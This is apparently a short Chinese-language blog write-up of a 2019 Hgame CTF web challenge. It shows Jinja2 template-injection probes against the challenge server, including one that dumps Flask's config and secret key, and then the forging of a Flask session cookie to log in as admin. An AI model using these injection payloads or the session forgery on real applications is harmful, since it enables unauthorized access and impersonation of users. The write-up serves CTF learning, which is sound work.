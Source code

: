 ```yaml
---
title: Lab - CTF：2019-Hgame-Web-Week4
date: 2019-11-13 11:11:11 -0400
description: Learning Path
categories: [Lab, CTF]
# img: /assets/img/sample/rabbit.png
tags: [Lab, CTF]
---
```


[toc]

---

# CTF：2019-Hgame-Web-Week4

flask/jinjia2模板注入，

```
http://118.25.18.223:3001/{{1+1}} //输出hello 2，确定是模板注入
http://118.25.18.223:3001/{{config}}
```

![20190223211856417](https://i.imgur.com/w0r5P8s.png)

```
http://118.25.18.223:3001/{{''.__class__.__mro__}}
发现可以，觉得大概是沙箱逃逸了
```

伪造session登陆


注入`{{config}}`得到了`secret_key`，
- 抓取session利用GitHub的`session_cookie_manager.py`解密`session`，
- 发现user_id是个数字，把它改成 admin 加密后访问失败。
- 注册两个新账号whd1/whd2发现其 user_id 为 164/165
- 猜测admin的user_id为01.
- 成功得到flag

```py
$ python2.exe session_cookie_manager.py decode -s "9RxdzNwq7!nOoK3*" -c ".eJxxxxxxxxx"
{u'csrf_token':u'xxxxxxxx', u'_fresh':True, u'user_id':u'28', u'_id':u'xxxxxxxx'}
```


![20190223211926119](https://i.imgur.com/yn48wFR.png)
